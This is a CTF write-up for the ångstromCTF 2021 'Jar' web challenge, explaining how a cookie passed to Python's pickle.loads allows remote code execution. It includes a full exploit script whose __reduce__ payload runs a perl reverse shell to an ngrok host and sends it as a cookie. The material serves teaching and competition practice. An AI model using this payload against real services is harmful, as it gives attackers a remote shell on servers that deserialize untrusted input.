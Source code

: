 Given the challenge name and all those pickles, one can immediatly assume we're talking about [python's pickle module.](https://docs.python.org/3/library/pickle.html)
Particularly, the line

```python
if contents: items = pickle.loads(base64.b64decode(contents))
```

seems interesting. If an user makes a request to the page, the application will try to get the cookie `contents` and try to deserialize it using the pickle module. Unpickling user controlled inputs is known to be dangerous hence we can try to craft a payload that, when deserialized, gives us RCE.

```python
#!/usr/bin/python
import random
import os
import pickle
import base64
import requests

# craft evil class
class Pwned:

    def __reduce__(self):
        # expose an ngrok tcp instance and wait for connection
        HOST = "6.tcp.ngrok.io"
        PORT = 14516
        # perl oneliner from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl
        return (exec, ("__import__('subprocess').Popen(['perl', '-e', 'use Socket;$i=\"%s\";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'])" % (HOST, PORT),))

# serialize and base64 encode Pwned class
encoded = pickle.dumps(Pwned())
contents = base64.b64encode(encoded).decode()
print("[*] Using payload %s" % contents)

# trigger remote pickle.loads with our payload
r = requests.get('https://jar.2021.chall.actf.co/', cookies={'contents' : contents}, verify=False)
```

The idea behind this attack is to use a special function `__reduce__` in our crafted `Pwned` class. In this way, when we serialize the class, the `__reduce__` function will return a tuple with a callable object and a list of arguments. When unpickled, the class will execute the callable object using the parameters provided in `__reduce__`. Learn more about [python __reduce__ function.](https://docs.python.org/3/library/pickle.html#object.__reduce__)

The solution we found it quite an overkill; when submitted, the payload triggers a reverse shell on the remote webserver. That said, we can setup a ngrok tunnel on our local machine that forwards the connections to a netcat server and get the shell.
![angstrom_ctf](/assets/img/AngstromCTF_2021/web_1.png)
